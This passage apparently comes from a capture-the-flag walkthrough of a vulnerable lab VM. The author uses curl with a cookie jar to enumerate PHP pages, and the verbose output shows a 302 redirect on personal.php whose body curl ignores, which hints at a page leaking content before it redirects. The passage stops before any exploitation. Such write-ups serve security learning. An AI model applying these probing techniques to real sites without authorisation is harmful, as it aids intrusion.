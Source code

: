 Here I am telling curl to make a `GET` request to http://192.168.56.102/super_secret_login_path_muhahaha/index.php, using a cookies file called `cookies` when making the request (-b flag), and storing any cookies received in the same file (-c flag). I am also telling it to follow redirects in the case of `302`'s, and be verbose with output so that I can see the headers. Requesting `index.php` resulted in a cookie jar of:

```bash Hell cookie-jar
root@kali:~# cat cookies
# Netscape HTTP Cookie File
# http://curl.haxx.se/rfc/cookie_spec.html
# This file was generated by libcurl! Edit at your own risk.

192.168.56.102 FALSE /  FALSE 0  PHPSESSID   8u300rbb0747fi6iocm0lt4310
```

Great. So I used this on all of the enumerated scripts, carefully checking for anything that would stand out. This part definitely took me some time to realize, but I finally saw the gem when I made a request to `personal.php`:

```bash 302 output
root@kali:~# curl -v -L http://192.168.56.102/super_secret_login_path_muhahaha/personal.php -c cookies -b cookies
* About to connect() to 192.168.56.102 port 80 (#0)
*   Trying 192.168.56.102...
* connected
* Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET /super_secret_login_path_muhahaha/personal.php HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 192.168.56.102
> Accept: */*
> Cookie: PHPSESSID=8u300rbb0747fi6iocm0lt4310
>
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 302 Found
< Date: Sun, 20 Jul 2014 07:48:17 GMT
< Server: Apache/2.2.22 (Debian)
< X-Powered-By: PHP/5.4.4-14+deb7u11
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Location: index.php
< Vary: Accept-Encoding
< Content-Length: 387
< Content-Type: text/html
<
* Ignoring the response-body     # WAIT A SEC...
* Connection #0 to host 192.168.56.102 left intact
* Issue another request to this URL: 'http://192.168.56.102/super_secret_login_path_muhahaha/index.php'
* Re-using existing connection! (#0) with host (nil)
* Connected to (nil) (192.168.56.102) port 80 (#0)
> GET /super_secret_login_path_muhahaha/index.php HTTP/1.1
```
